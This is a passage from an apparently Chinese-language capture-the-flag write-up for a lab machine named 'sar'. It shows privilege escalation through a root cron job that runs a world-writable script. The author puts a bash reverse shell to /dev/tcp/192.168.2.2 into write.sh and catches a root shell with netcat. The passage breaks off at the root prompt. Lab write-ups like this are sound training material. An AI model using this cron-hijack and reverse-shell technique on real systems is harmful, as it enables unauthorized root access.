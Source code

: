   # and files in /etc/cron.d. These files also have username fields,
  # that none of the other crontabs do.
  
  SHELL=/bin/sh
  PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
  
  # m h dom mon dow user  command
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  #
  */5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
  www-data@sar:/home/love/Desktop$ cd /var/www/html
  cd /var/www/html
  www-data@sar:/var/www/html$ cat finally.sh
  cat finally.sh
  #!/bin/sh
  
  ./write.sh
  www-data@sar:/var/www/html$ ls -lhai
  ls -lhai
  total 40K
  406326 drwxr-xr-x 3 www-data www-data 4.0K Oct 21  2019 .
  406325 drwxr-xr-x 4 www-data www-data 4.0K Oct 21  2019 ..
  408197 -rwxr-xr-x 1 root     root       22 Oct 20  2019 finally.sh
  405623 -rw-r--r-- 1 www-data www-data  11K Oct 20  2019 index.html
  408195 -rw-r--r-- 1 www-data www-data   21 Oct 20  2019 phpinfo.php
  400981 -rw-r--r-- 1 root     root        9 Oct 21  2019 robots.txt
  405734 drwxr-xr-x 4 www-data www-data 4.0K Aug 21 20:43 sar2HTML
  408199 -rwxrwxrwx 1 www-data www-data   30 Oct 21  2019 write.sh
  www-data@sar:/var/www/html$ 
  
  ```

- 写入反弹shell到需要执行的`write.sh`文件中

- ```shell
  #!/bin/bash 
  bash -c 'bash -i >& /dev/tcp/192.168.2.2/1234 0>&1' 
  touch /tmp/gateway
  ```

- 获取root用户flag

- ```shell
  └─$ nc -nvlp 1234             
  listening on [any] 1234 ...
  connect to [192.168.2.2] from (UNKNOWN) [192.168.2.10] 43756
  bash: cannot set terminal process group (18465): Inappropriate ioctl for device
  bash: no job control in this shell
  root@sar:/var/www/html# cat write.sh
  cat write.sh
  